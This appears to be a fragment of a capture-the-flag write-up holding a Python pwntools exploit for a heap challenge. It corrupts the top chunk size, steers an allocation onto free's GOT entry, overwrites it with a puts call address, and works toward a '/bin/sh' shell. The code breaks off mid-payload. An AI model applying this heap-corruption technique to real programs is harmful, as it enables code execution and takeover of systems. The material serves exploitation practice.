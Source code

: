 ```python
create(0x18, '/bin/sh')
destory('/bin/sh')
```



#### exp

```python
def create(size, name, ac=True):
    payload = 'create ' + str(size) + ' ' + name
    if ac:
        p.sendlineafter('accept\n', payload)
    else:
        p.sendline(payload)

def destory(name, ac=True):
    payload = 'destory ' + name
    if ac:
        p.sendlineafter('accept\n', payload)
    else:
        p.sendline(payload)

l = ELF('/lib/x86_64-linux-gnu/libc.so.6', checksec=False)
i64_max = (1<<64)-1

def pwn_world():
    p.sendline('./next')
    p.sendlineafter('?\n', 'create')
    p.recvuntil('address is: ')
    heap_addr = int(p.recvline(), 16)# - 0x10
    success("heap addr -> %s" % hex(heap_addr))
    p.sendafter('name: ', 'a'*0xf8 + p64(i64_max))

    create(0x18, 'aaa', False)
    create(0x18, 'bbb')
    create(0x18, 'ccc')
    create(0x18, 'ddd')
    create(0x18, 'eee')
    destory('ccc')
    destory('aaa')
    create(0x18, 'aaa')

    free_got = 0x602018

    # create(str(free_got - heap_addr - 0x100 - 0x80 - 0x18 - 0xc0), 'bbbb')
    create(str(free_got - 0x20 - (heap_addr + 0x240)), 'bbbb')

    destory('ddd')
    destory('aaa')

    call_puts = 0x4010CF

    payload  = 'a'*8
    payload += p64(call_puts).replace(b'\x00',b'\t')[:-1]
    create(0x88, payload)

    create(0x28, 'a'*0x10)

    p.sendlineafter('accept\n', 'create')

    payload  = p64(0)
    payload += p32(0) + p32(2)
    payload += p64(0x6020e0)
    payload += p64(0x602030)
```